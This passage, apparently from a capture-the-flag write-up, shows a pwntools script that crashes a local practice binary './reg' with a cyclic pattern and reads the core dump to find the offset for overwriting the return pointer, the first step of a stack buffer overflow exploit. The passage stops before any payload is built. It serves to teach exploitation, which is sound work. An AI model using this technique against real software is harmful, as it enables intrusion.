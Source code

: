 ```python
#!/usr/bin/env python3

from pwn import *
from time import sleep

context.log_level = "DEBUG"     # See more detailed interaction information
context.binary = ELF("./reg")   # Set the context binary to our target
context.update(arch="amd64", os="linux")    # More context

# Now spawn an instance of our process and interact with it
p = process("./reg")

# Build our previous buffer, using bytes objects because python3
test_buf = cyclic(200)  # Send a 200 byte pattern to the process
# Send this directly to the process
p.recvuntil(b":")       # We need to receive 'Enter your name:' before we send
p.sendline(test_buf)    # Send our buffer overa
p.recvline()            # Receive our 'Registered' message
# Now read from the process corefile where rip is
p.wait()                # Wait for the crash
core = p.corefile       # set up the corefile
pattern = core.read(core.rsp, 4)    # Read 4 bytes from rsp (where RP is at the ret instruction)
rip_offset = cyclic_find(pattern)   # Check the data here against our cyclic pattern
log.info(f"Found offset to operwrite RP : {hex(rip_offset)}")    # Tell us what we found
```

Running this we get the offset to RP nicely:
